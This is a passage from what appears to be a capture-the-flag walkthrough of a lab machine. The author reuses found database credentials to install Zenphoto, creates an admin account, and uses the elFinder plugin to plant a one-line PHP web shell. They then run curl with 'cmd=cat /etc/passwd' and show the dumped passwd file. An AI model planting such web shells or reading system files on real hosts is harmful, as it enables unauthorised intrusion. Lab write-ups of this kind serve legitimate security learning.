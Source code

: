 http://10.37.129.9/admin/

dbuser:dbpassword

success

Still nothing....

http://10.37.129.9/zenphoto

Loads up the zenphoto installer, so I set it up with the db credentials from the SimplePHPQuiz configs.

Now add my own admin user, admin:dr0wss4p!

Poke around a bit to try and upload a file, then looking through plugins I see the option to enable elFinder, turn it on and create a shell.php file, then edit the file in elFinder:

{% highlight php %}
<?php system($_GET["cmd"]); ?>
{% endhighlight %}

This will serve as a starting point to getting a real reverse shell going:

curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd

To test it out:

{% highlight bash %}
curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd
*   Trying 10.37.129.9...
* TCP_NODELAY set
* Connected to 10.37.129.9 (10.37.129.9) port 80 (#0)
> GET /zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd HTTP/1.1
> Host: 10.37.129.9
> User-Agent: curl/7.52.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Tue, 08 Aug 2017 04:37:55 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 2156
< Content-Type: text/html; charset=UTF-8
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
bind:x:104:114::/var/cache/bind:/bin/false
postfix:x:105:115::/var/spool/postfix:/bin/false
dovecot:x:106:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false